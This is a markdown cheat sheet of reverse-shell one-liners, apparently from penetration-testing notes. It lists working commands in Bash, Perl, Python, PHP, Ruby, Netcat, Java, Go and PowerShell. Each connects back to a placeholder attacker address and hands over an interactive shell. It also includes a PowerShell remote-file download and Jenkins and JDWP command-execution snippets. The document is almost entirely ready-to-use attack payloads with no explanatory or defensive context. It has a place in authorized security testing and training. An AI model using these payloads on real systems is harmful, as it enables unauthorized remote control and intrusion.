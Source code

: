 ```yaml
---
description: Common reverse shells
---
```


# Reverse Shells One-Liners

### Bash 

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` 

### Perl 

`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### URL-Encoded Perl: Linux 

`echo%20%27use%20Socket%3B%24i%3D%2210.11.0.245%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2fbin%2fsh%20-i%22%29%3B%7D%3B%27%20%3E%20%2ftmp%2fpew%20%26%26%20%2fusr%2fbin%2fperl%20%2ftmp%2fpew` 

### Perl \(Windows\): 

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'` 

`perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` 

### Python 

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` 

### Python v6

`python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'`

### PHP 

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` 

### Ruby 

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'` 

### Netcat 

`nc -e /bin/sh ATTACKING-IP 80`   
`/bin/sh | nc ATTACKING-IP 80`   
`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p` 

### Netcat without -e \#1 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f` 

### Netcat without -e \#2 

`nc localhost 443 | /bin/sh | nc localhost 444`   
or   
`telnet localhost 443 | /bin/sh | telnet localhost 444` 

### Java 

`r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[]); p.waitFor();` 

### Xterm 

`xterm -display 10.0.0.1:1` 

### Java Debug Wire Protocol \(JDWP\) RCE 

\``print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())` 

### PowerShell 

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"` 

`$callback = New-Object System.Net.Sockets.TCPClient("192.168.117.134",443);$stream = $callback.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$callback.Close()`

### Jenkis Server 

`println "cmd /c whoami".execute().text` 

### Golang

`echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go`


